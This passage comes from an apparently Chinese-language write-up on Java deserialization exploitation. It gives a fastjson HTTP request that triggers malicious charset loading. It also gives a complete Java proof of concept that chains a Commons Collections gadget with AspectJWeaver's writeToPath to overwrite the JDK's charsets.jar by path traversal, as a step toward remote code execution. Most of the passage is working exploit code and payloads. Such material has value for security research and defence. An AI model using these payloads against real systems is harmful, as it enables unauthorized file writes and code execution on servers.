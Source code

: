 用上面的docker fastjson路由触发：

```http
POST /fastjson HTTP/1.1
Content-Type: application/json

{
    "x":{
        "@type":"java.nio.charset.Charset",
        "val":"IBM33722"
    }
}
```

![fastjson触发charset加载](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/fastjson%E8%A7%A6%E5%8F%91charset%E5%8A%A0%E8%BD%BD.gif)



### Trick2.5：AspectJWeaver写文件

借助CC前半段触发`org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap#writeToPath`去写文件，然后选上面的Accept触发方式去RCE

```java
public class writeToPath_withCC {
    public static void main(String[] args) throws Exception {
        byte[] code = Files.readAllBytes(Paths.get("charsets.jar"));
        Class clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor constructor = clazz.getDeclaredConstructor(String.class,int.class);
        constructor.setAccessible(true);
        HashMap storeableCachingMap = (HashMap) constructor.newInstance("./",1);
//        storeableCachingMap.put("writeToPathFILE",code);
        LazyMap lazy = (LazyMap) LazyMap.decorate(storeableCachingMap, new ConstantTransformer(code));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazy, "../../usr/lib/jvm/java-1.8-openjdk/jre/lib/charsets.jar");
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, tiedMapEntry);
        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```
